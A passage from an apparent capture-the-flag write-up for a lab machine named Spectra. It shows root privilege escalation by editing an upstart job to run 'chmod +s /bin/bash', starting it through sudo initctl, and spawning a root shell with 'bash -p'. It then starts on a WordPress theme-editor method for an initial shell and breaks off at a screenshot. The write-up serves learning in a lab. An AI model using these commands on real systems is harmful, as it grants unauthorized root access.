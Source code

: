 It's already stopped, so we can edit the conf file and the start it again:

```text
katie@spectra /etc/init $ cat test.conf 
description "Test node.js server"
author      "katie"
start on filesystem or runlevel [2345]
stop on shutdown

script
chmod +s /bin/bash
end script
```

Now we can start the process:

```text
katie@spectra /etc/init $ sudo /sbin/initctl start test
test stop/waiting
```

Now we can simply run bash with the -p option to get our root shell:

```text
katie@spectra /etc/init $ /bin/bash -p
bash-4.3# whoami
root
```

Grab the root flag and we are done:

```text
bash-4.3# cat /root/root.txt 
<<HIDDEN>>
```

That was a nice simple box. Below is how you could get the initial shell by changing a file within the WordPress theme instead of using Meterpreter.

## WordPress Themes Method

From the dashboard go to Appearance and then Theme Editor:

![spectra-theme-editor](/assets/images/2021-03-21-17-19-04.png)
